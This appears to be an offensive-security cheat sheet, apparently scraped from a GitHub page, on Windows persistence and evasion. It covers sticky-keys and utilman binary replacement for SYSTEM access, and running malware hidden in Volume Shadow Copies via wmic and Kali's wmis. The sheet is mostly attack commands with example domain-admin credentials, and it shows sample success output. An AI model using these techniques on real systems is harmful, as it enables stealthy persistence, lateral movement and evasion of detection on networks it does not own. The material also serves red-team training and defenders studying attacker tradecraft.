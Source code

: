 ##### SETHC/UTILMAN Replacement

Replace these binaries, may require a reboot to take effect

```
    %WINDIR%\System32\sethc.exe
    %WINDIR%\System32\utilman.exe
```

Hit shift 5 times = sethc.exe run by SYSTEM
Windows key + U = utilman.exe run by SYSTEM

##### Volume Shadow Copy (Restore Points)

Windows service that's constantly running - takes snapshots of system directories

Drop Malware -> Create VSC (ReadOnly) -> Delete Malware -> Use WMIC to run VSC of malware

Registry Key to Disable Volume Shadow Copy

```
    HKLM\System\CurrentControlSet\Control\BackupRestore\FilesNotToSnapshot
```

##### VSSADMIN - native windows utility

vssadmin create command only applies to Server OS (Win2k3,2008)

```
    vssadmin list shadows
    vssadmin create shadow /for=C:
    wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin create shadow /for=C
    mklink /D C:\VscAccess \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy1
    copy \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy4\path\to\some\file e:\files
```

##### Use WMIC process call to run an .exe from a Volume Shadow Copy

```
    wmic process call create \\.\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\evil.exe
```

This process will not show the imagename (executable filename) or commandline parameters in the task list.
The file cannot be individually deleted from the shadow copy once created. The entire shadow copy must be deleted to remove it.

```
    root@kali:~# wmis -U DOMAIN\domainadminsvc%domainadminsvc123 //ServerName \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\evil.exe
    NTSTATUS: NT_STATUS_OK - Success
```

In Kali Linux you could use the WMIS package to do the same thing:

```
    wmis -U DOMAIN\domainadminsvc%domainadminsvc123 //ServerName \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\evil.exe
    NTSTATUS: NT_STATUS_OK - Success
```
